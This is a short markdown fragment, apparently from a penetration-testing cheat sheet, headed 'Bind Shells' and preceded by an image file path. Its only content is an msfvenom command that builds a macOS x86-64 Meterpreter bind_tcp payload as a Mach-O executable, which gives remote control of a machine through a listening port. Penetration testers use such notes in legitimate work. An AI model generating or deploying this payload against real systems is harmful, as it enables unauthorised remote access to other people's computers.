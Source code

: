 # Bind Shells

1. x86-64 (64-bit) Payloads

```
$ msfvenom -p osx/x64/meterpreter/bind_tcp lport=<PORT> -f macho -o payload-x64
```